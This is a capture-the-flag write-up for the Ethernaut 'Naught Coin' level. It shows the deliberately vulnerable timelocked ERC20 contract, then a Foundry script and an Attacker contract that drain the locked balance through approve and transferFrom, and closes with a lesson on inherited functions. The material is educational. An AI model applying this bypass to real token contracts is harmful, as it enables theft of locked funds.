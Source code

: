 ```yaml
---
title: "Naught Coin"
date: "2024-02-23"
lastmod: "2024-02-23T15:25:00.000Z"
draft: false
difficulty: "⭐⭐⭐⭐"
prev: "GateKeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
weight: 16
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/15"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "5013cfef-45d6-46e6-93a6-feaac127ac33"
  created_time: "2024-02-23T14:37:00.000Z"
  last_edited_time: "2024-02-23T15:25:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel15.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "f9c2f40a-0144-4e6d-a134-6b9fd725f7a9"
        name: "⭐⭐⭐⭐"
        color: "red"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "GateKeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "GateKeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-23"
        end: null
        time_zone: null
    Last edited time:
      id: "ZdmN"
      type: "last_edited_time"
      last_edited_time: "2024-02-23T15:25:00.000Z"
    weight:
      id: "%5Dyda"
      type: "number"
      number: 16
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/15"
    Last edited by:
      id: "mIQC"
      type: "last_edited_by"
      last_edited_by:
        object: "user"
        id: "7866207c-089f-43df-9333-1dc33859c6a9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text: []
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Naught Coin"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Naught Coin"
          href: null
  url: "https://www.notion.so/Naught-Coin-5013cfef45d646e693a6feaac127ac33"
  public_url: null
UPDATE_TIME: "2024-02-23T20:58:51.824Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


NaughtCoin is an
 ERC20 token and you're already holding all of them. The catch is that 
you'll only be able to transfer them after a 10 year lockout period. Can
 you figure out how to get them out to another address so that you can 
transfer them freely? Complete this level by getting your token balance 
to 0.


Things that might help

- The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
- The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker,NaughtCoin} from "../src/15.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address publicKey = vm.envAddress("PUBLIC_KEY");
        address addr = vm.envAddress("INSTANCE_15");

        vm.startBroadcast(deployerPrivateKey);

        Attacker attacker = new Attacker();
        NaughtCoin nc = NaughtCoin(addr);

        nc.approve(address(attacker), nc.balanceOf(publicKey));

        attacker.attack(address(nc));

        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface NaughtCoin {
  function transfer(address _to, uint256 _value) external returns(bool);
  function approve(address spender, uint256 value) external returns (bool);
  function transferFrom(address from, address to, uint256 value) external returns (bool);
  function balanceOf(address account) external view returns (uint256);
}

contract Attacker {
  function attack(address _addr) public {
    NaughtCoin nc = NaughtCoin(_addr);
    nc.transferFrom(msg.sender, address(this), nc.balanceOf(msg.sender));
  }
}
```


When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might  scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.

